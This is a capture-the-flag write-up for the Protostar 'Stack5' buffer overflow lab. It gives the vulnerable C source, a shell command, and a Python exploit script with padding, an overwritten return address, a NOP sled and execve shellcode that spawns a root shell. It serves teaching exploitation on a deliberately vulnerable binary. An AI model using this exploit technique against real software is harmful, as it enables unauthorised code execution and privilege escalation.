

# Stack5

## Description
Stack5 is a standard buffer overflow, this time introducing shellcode.

## Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
## Solution 
We are given the source code which contains nothing but an array buffer and we are supposed to introduce shellcode. This time we don't have any variable like modified or function like win. So we are supposed to add a shellcode to in the buffer to execute a shell. For this we can create a script and lookout for the address where the program terminates. Then we can add the NOP and our shellcode. This makes us the root user. We can doo this with the following commands and script.
```bash
(python /tmp/s/script.py ; cat) | /opt/protostar/bin/stack5
```
### Script.py
```python
import struct

padding = 'aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssss'
eip = struct.pack("I",0xbffff7c0+30)
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
nop = "\x90"*100

print(padding+eip+nop+shellcode)
```
